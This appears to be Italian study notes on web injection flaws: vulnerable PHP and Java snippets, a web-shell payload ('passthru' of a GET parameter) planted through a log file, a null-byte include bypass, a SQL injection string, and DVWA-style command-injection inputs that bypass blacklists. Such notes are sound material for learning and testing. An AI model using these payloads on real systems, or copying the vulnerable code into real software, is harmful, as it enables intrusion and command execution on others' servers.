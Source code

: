 ## Command injection

- http://www.scribd.com/doc/2530476/Php-Endangers-Remote-Code-Execution
- https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection

I valori inseriti dall'utente non vengono opportunamente sanitizzati lato server.

> https://www.exploit-db.com/papers/13073

`submit.php`

```
<form method="POST" action="">
	<textarea rows="10" name="comments" cols="60"></textarea>
	<p><input type="submit" value="Post" name="sub"></p>
</form>
```

`comments.php`

```
$comments = $_POST['comments'];

$log = fopen('comments.php','a');
fwrite($log,'<br />'.'<br />.'<center>'.'Comments::'.'<br />'.$comments);
fclose($log);
```

L'input dell'utente non viene sanitizzato.

L'attaccante può sfruttare questa vulnerabilità per eseguire comandi come `phpinfo();`.

`info.php`

```
<?php
$msg = $_GET['msg'];
$ip = getenv('REMOTE_ADDR');
$error = fopen('errorlog.php','a');
fwrite($error,'<br />'.$msg.'<br />'.$ip.'<br />');
fclose($error);
?>
```

L'attaccante inserisce il codice `<? passthru($_GET['cmd']); ?>` nel file di log `errorlog.php`.
Quando il file di log viene richiesto passando col parametro `cmd` il comando `command`, quest'ultimo viene eseguito.

`http://victim.xxx/info.php?msg=<? passthru($_GET['cmd']); ?>`

`http://victim.xxx/errorlog.php?cmd=<command>`

**Null Byte Injection**

`include.php`

```
<?php
	$file = $_GET['file'];
	include('$file.php');
?>
```

L'attaccante esclude `.php` dal nome del file inserendo il terminatore `%00` nell'URL visitata.

`http://victim.xxx/include.php?file=secret.txt%00`

> https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection

```
String query = "SELECT * FROM accounts WHERE custID='" + request.getParameter("id") + "'";
```

oppure

```
Query HQLQuery = session.createQuery("FROM accounts WHERE custID='" + request.getParameter("id") + "'");
```

L'attaccante invia come parametro id il valore `' or '1'='1`, che cambia il significato della query.

`http://example.com/app/accountView?id=' or '1'='1`

### Command injection - Low

```
// *nix
$cmd = shell_exec( 'ping  -c 4 ' . $target );
```

- inietta il comando CMD inserendo i seguenti valori:

	- `8.8.8.8; CMD`

### Command injection - Medium

```
// Set blacklist
$substitutions = array(
	'&&' => '',
	';'  => '',
);

// Remove any of the charactars in the array (blacklist).
$target = str_replace( array_keys( $substitutions ), $substitutions, $target ); 
```

- inietta il comando CMD inserendo i seguenti valori:

	- `8.8.8.8 | CMD`

### Command injection - High

```
	// Set blacklist
	$substitutions = array(
	'&'  => '',
	';'  => '',
	'| ' => '',
	'-'  => '',
	'$'  => '',
	'('  => '',
	')'  => '',
	'`'  => '',
	'||' => '',
	);

	// Remove any of the charactars in the array (blacklist).
	$target = str_replace( array_keys( $substitutions ), $substitutions, $target );
```

- inietta il comando CMD inserendo i seguenti valori:

	- `8.8.8.8 |CMD`


